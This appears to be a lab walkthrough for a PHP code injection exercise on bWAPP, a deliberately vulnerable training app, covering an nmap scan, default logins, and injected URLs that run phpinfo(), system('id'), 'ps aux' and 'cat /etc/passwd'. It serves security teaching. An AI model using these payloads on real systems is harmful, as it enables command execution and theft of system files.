

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">PHP Code Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1900> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Determining the IP address of the target machine. **Command:** ifconfig ![ref2]

The IP address of the host machine is 192.183.205.2. Therefore, the target machine has IP address 192.183.205.3 

**Step 2:** Scan the target machine using nmap. **Command:** nmap 192.183.205.3 

Port 80 and 3306 are open on the target machine. ![ref2]

**Step 3:** Interacting with the web application.Open the following URL in firefox: **URL:** http://192.183.205.3 

bWAPP is hosted on the target machine. 

Login into the webapp using the following credentials (indicated above the login fields): 

**Username:** bee ![ref2]**Password:** bug 

![ref1]

After successful login:  

**Step 4:** Select “PHP Code Injection” from the “Choose your Bug” dropdown menu: 

After selecting the bug, click on the Hack button. ![ref2]

That would lead to the following screen: 

**Step 5:** Click on the text “message” (in bold) to echo back a test message: ![ref2]

Notice the URL. There is a message parameter in the URL containing the text that is echoed back to the page. 

**Step 6:** Insert "hello" message in the message parameter and check the response. ![ref2]**Modified URL:** 192.183.205.3/phpi.php?message=hello 

Notice that the string “hello” got echoed back this time. 

**Step 7:** Perform PHP Code Injection and execute phpinfo function to retrieve information about the web server. 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;phpinfo() ![ref2]

The phpinfo function was executed successfully. ![ref2]

**Step 8:** Leverage the vulnerability and execute system commands.  **Linux Command:** id 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;system('id') 

**Step 9:** List the processes running on the target machine. ![ref2]

**Linux Command:** ps aux 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;system('ps aux') 

**Step 10:** Retrieve the content of /etc/passwd file. **Linux Command:** cat /etc/passwd 

**Modified URL:** http://192.183.205.3/phpi.php?message=hello;system(%27cat%20/etc/passwd%27) ![ref2]

The content of /etc/passwd file is dumped on the web page.  **References:** 

1. OWASP A1 Injection (![ref2][https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)) 
1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) 
1. bWAPP (<http://www.itsecgames.com/>) 

[ref1]: Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.002.png
[ref2]: Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.003.png
